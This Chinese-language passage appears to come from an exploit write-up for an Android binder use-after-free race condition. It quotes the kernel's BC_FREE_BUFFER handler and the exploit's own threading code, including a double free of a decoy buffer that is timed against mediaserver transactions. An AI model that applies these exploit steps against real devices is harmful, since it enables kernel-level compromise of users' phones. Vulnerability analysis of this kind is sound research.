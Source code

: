 我们先看

```c
pthread_mutex_lock(&alloc_mutex);
	bc_free_buffer(replyParcelIndex);
	global_parcel_index = replyParcelIndex;
```

它所作的就是对于我们的诱饵binder_buffer执行bc_free_buffer所对应的逻辑

```c
case BC_FREE_BUFFER: {
			binder_uintptr_t data_ptr;
			struct binder_buffer *buffer;

			if (get_user(data_ptr, (binder_uintptr_t __user *)ptr))
				return -EFAULT;
			ptr += sizeof(binder_uintptr_t);

			buffer = binder_alloc_prepare_to_free(&proc->alloc,
							      data_ptr);
			if (buffer == NULL) {
				binder_user_error("%d:%d BC_FREE_BUFFER u%016llx no match\n",
					proc->pid, thread->pid, (u64)data_ptr);
				break;
			}
			if (!buffer->allow_user_free) {
				binder_user_error("%d:%d BC_FREE_BUFFER u%016llx matched unreturned buffer\n",
					proc->pid, thread->pid, (u64)data_ptr);
				break;
			}
			[...]
			trace_binder_transaction_buffer_release(buffer);
			binder_transaction_buffer_release(proc, buffer, NULL);
			binder_alloc_free_buf(&proc->alloc, buffer);
			break;
```

通过了allow_user_free检查，执行了binder_alloc_free_buf，此时它前后的binder_buffer free都为0，所以binder_alloc_free_buf所作的是将诱饵binder_buffer解除映射，free标位1，放入alloc空闲binder_buffer红黑树中去，注意此时这个binder_buffer的allow_user_free是1，没发生改变，如我在诱饵时所说的

```c
global_parcel_index = replyParcelIndex;
pthread_cond_signal(&alloc_cond);
pthread_mutex_unlock(&alloc_mutex);
usleep(450);
bc_free_buffer(replyParcelIndex);
bc_free_buffer(replyParcelIndex - 1);
```

这里就是条件竞争部分，pthread_cond_signal唤醒子线程 usleep(450)这个因为线程2通过binder进程间通信，让mediaserver执行到BC_REPLY需要一段时间，先是子线程

```c
while(1) 
	{
		pthread_cond_wait(&alloc_cond, &alloc_mutex);
		dataBCArray[global_parcel_index].writeInterfaceToken(String16("android.media.IMediaPlayer"));
                IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataBCArray[global_parcel_index], &replyBCArray[global_parcel_index], 0);
	}
	pthread_mutex_unlock(&alloc_mutex);
```

